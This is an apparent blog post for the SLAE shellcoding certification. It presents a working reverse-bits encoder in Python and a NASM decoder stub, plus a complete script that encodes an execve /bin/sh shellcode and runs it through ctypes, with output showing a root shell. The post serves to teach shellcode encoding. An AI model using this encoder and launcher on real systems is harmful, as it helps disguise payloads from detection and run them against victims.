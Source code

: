 ```yaml
---
layout: single
title: SLAE Assignment 4 - Reverse Bits Encoder
date: 2020-5-07
classes: wide
header:
  teaser: /assets/images/slae/SHELLCODING32.png
tags:
    - Shellcoding
    - Linux
    - x86
    - SLAE
---
```


![](/assets/images/slae/SHELLCODING32.png)

## Introduction
This is the fourth post of the SLAE exam assignments serie.  

The goal of this assignement is to create a custom encoding scheme and to use it in a PoC (Proof of Concept) with an execve shellcode.

All the source code for this assignment can be found on my [github repository](https://github.com/skr0x/SLAE/tree/master/Assignment-04-Reverse_bits_encoder)

## Reverse Bits Encoder

### Overview

For this assignment, I've chosen to create a reverse bits encoder, its principle is very simple, it take each byte one after the other and reverse their bits

For example, the hexadecimal number 59 (opcode of 'pop ecx' instruction) is 01011001 in binary, 
so after reversing of its bits, it will become 10011010, or 9A in hexadecimal.

### Implementation

The implementation is also very simple, here is the encoder part from the Python script :

```python
# Convert the shellcode string into a bytes object
shellcode_b = bytes.fromhex(shellcode.replace('\\x', ''))

# Initialize encoded_shellcode, to store the bytes after encoding
encoded_shellcode = ""

# For each byte of the shellcode
for b in shellcode_b:

    # Convert the byte in a string representing its binary value, 
    # with a fixed size of 8 characters and padding with 0 {:08b}
    #
    # Reverse the string order with the slicing technique [::-1] then append "0b" to it
    # so it can be identified like a valid binary number representation
    #
    # Convert the binary representation string into an integer int(str, base=2)
    #
    # Then convert this integer into a string representation of its hexadecimal value, 
    # size of 2 characters and padding with 0 {:02x}
    #
    # Append "\\x" and add it to the encoded_shellcode string
    #
    encoded_shellcode += "\\x"+"{:02x}".format(int("0b"+"{:08b}".format(b)[::-1], base=2))
```

And here is the decoder stub source code :

```nasm
_start:
    jmp    decoder      ; jmp call 'pop' technique to get the memory address after the call
                        ; this will be the address of the encoded shellcode

decode:
    mov    ebx,[esp]    ; ebx will point the encoded shellcode
    xor    ecx,ecx      ; ecx set to 0
    mov    cl,0x21      ; The encoded shellcode length used for the loop counter
                        ; (will be calculated and inserted in function of the chosen shellcode to execute)

next_byte:
    push   ecx          ; Save the main loop counter on the stack
    mov    cl,0x08      ; Set the ecx to 8, the bit counter

next_bit:
    shr byte [ebx],1    ; Shift the bits of the byte pointed by ebx to the right 
			; and copy the lower bit in the Carry Flag (CF)
    adc    al,al        ; add al with al and the CF, in other words shift all bits to the left (al * 2)
			; and insert the last bit pointed by ebx to the right			
			; So in the end, all the bit of the byte pointed by ebx will be pushed to the right 
			; and inserted in al from the right and moved to the left, in the reverse order

    loop   next_bit     ; Process next bit of current byte 

    mov byte [ebx], al  ; copy the decoded byte at the memory address pointed by ebx
    inc    ebx          ; point ebx to the next encoded shellcode byte

    pop    ecx          ; Pop the main loop counter in ecx
    loop   next_byte    ; Process next byte

    ret                 ; Return to the start of the decoded shellcode

decoder:    
    call   decode       ; Push the memory address of the next instruction to the stack
                        ; And jump to the decoder

; The encoded shellcode will be added here in the python script
```

To use it in the Python script we need to compile it and extract the shellcode :

```plaintext
root@kali:~# ./compile.sh reverse-encoder
[x] Assembling...
[x] Linking...
[x] Done !

Shellcode : 
"\\xeb\\x17\\x8b\\x1c\\x24\\x31\\xc9\\xb1\\x21\\x51\\xb1\\x08\\xd0\\x2b\\x10\\xc0\\xe2\\xfa\\x88\\x03\\x43\\x59\\xe2\\xf1\\xc3\\xe8\\xe4\\xff\\xff\\xff"
```

And we insert it in the Python script after a little update, 
the ninth byte is the encoded shellcode size, so we need to replace it with {0} and we add {1} at the end, where the encoded shellcode will be added.

```python
#!/usr/bin/python3
from ctypes import CDLL, CFUNCTYPE, c_char_p, cast
from sys import argv

libc = CDLL("libc.so.6")

# Max length : 255 bytes
# Execve("/bin//sh", null, null) 
shellcode = "\\x31\\xc9\\xf7\\xe1\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\xb0\\x0b\\xcd\\x80"

#    xor ecx,ecx
#    mul ecx
#
#    push eax
#    push 0x68732f6e
#    push 0x69622f2f 
#
#    mov ebx, esp
#    mov al, 0x0b
#    int 0x80

# Reverse bit decoder
decoder = "\\xeb\\x17\\x8b\\x1c\\x24\\x31\\xc9\\xb1{0}\\x51\\xb1\\x08\\xd0\\x2b\\x10\\xc0\\xe2\\xfa\\x88\\x03\\x43\\x59\\xe2\\xf1\\xc3\\xe8\\xe4\\xff\\xff\\xff{1}"

# Convert the shellcode string into a bytes object
shellcode_b = bytes.fromhex(shellcode.replace('\\x', ''))

# Initialize encoded_shellcode, to store the bytes after encoding
encoded_shellcode = ""

# For each byte of the shellcode
for b in shellcode_b:

    # Convert the byte in a string representing its binary value, 
    # with a fixed size of 8 characters and padding with 0 {:08b}
    #
    # Reverse the string order with the slicing technique [::-1] then append "0b" to it
    # so it can be identified like a valid binary number representation
    #
    # Convert the binary representation string into an integer int(str, base=2)
    #
    # Then convert this integer into a string representation of its hexadecimal value, 
    # size of 2 characters and padding with 0 {:02x}
    #
    # Append "\\x" and add it to the encoded_shellcode string
    #
    encoded_shellcode += "\\x"+"{:02x}".format(int("0b"+"{:08b}".format(b)[::-1], base=2))

# Insert the string representation of the shellcode length hexadecimal value
# And the encoded_shellcode into the decoder payload
payload = decoder.format("\\x" + "{:02x}".format(len(shellcode_b)), encoded_shellcode)

# Convert the payload into a bytes object
payload_b = bytes.fromhex(payload.replace('\\x', ''))

print("Shellcode length : {}".format(len(shellcode_b)))
print("Shellcode with decoder stub length : {}".format(len(payload_b)), end="\n\n")
print("Encoded shellcode :")
print(encoded_shellcode)
print(encoded_shellcode.replace('\\x', ',0x')[1:], end="\n\n")

print("Encoded shellcode with decoder stub :")
print(payload, end="\n\n")

print("Exec shellcode...")

# Execute the payload
c_shell_p = c_char_p(payload_b)

launch = cast(c_shell_p, CFUNCTYPE(c_char_p))

launch()
```

We will test it with an execve shellcode, but we can easily replace it by the shellcode we want.
The only constraint is to not use a shellcode bigger than 255 bytes, because the size is coded on one byte in the decoder.

```plaintext
root@kali:~/Desktop/shared/slae-exam/assignment-04# ./reverse-encoder.py 
Shellcode length : 21
Shellcode with decoder stub length : 51

Encoded shellcode :
\x8c\x93\xef\x87\x0a\x16\x76\xf4\xce\x16\x16\xf4\xf4\x46\x96\x91\xc7\x0d\xd0\xb3\x01
0x8c,0x93,0xef,0x87,0x0a,0x16,0x76,0xf4,0xce,0x16,0x16,0xf4,0xf4,0x46,0x96,0x91,0xc7,0x0d,0xd0,0xb3,0x01

Encoded shellcode with decoder stub :
\xeb\x17\x8b\x1c\x24\x31\xc9\xb1\x15\x51\xb1\x08\xd0\x2b\x10\xc0\xe2\xfa\x88\x03\x43\x59\xe2\xf1\xc3\xe8\xe4\xff\xff\xff\x8c\x93\xef\x87\x0a\x16\x76\xf4\xce\x16\x16\xf4\xf4\x46\x96\x91\xc7\x0d\xd0\xb3\x01

Exec shellcode...
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

And it's the end of this assignement ! :)


***This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
Student ID: PA-14186***
